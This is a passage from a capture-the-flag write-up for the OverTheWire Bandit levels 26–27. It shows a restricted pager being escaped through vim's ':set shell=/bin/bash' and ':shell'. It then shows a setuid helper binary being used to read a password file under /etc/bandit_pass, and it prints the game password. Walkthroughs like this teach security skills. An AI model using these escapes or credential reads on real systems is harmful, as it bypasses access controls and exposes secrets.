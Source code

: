 Now we have it opened in `vim` as user **bandit26**. From vim we can get a shell via the `:shell` command. To do that just hit **Esc** and then type `:shell`

```bash
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
:shell
```

Now hit enter.

```bash
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
--More--(33%)
```

Wait... What? So that got us back to `more`... Oh right the shell was set to run `more` so we just need to change the `:shell` command in `vim`. We can do this by typing in command mode `:set shell=/bin/bash`.

```bash
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~                                                                                      
:set shell=/bin/bash
```

And now run the `:shell` command.

```bash
bandit26@bandit:~$ 
```

WE GOT A SHELL!!! Next challenge then.

## Level 27


We will be using the shell established from the previous level. Let's check the current directory.

```bash
bandit26@bandit:~$ ls -la
total 36
drwxr-xr-x  3 root     root     4096 Oct 16  2018 .
drwxr-xr-x 41 root     root     4096 Oct 16  2018 ..
-rwsr-x---  1 bandit27 bandit26 7296 Oct 16  2018 bandit27-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
drwxr-xr-x  2 root     root     4096 Oct 16  2018 .ssh
-rw-r-----  1 bandit26 bandit26  258 Oct 16  2018 text.txt
```

This brings us back to [level 20](#level-20) where we had a setuid binary. This is easy then, let's just **cat** the password file.

```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
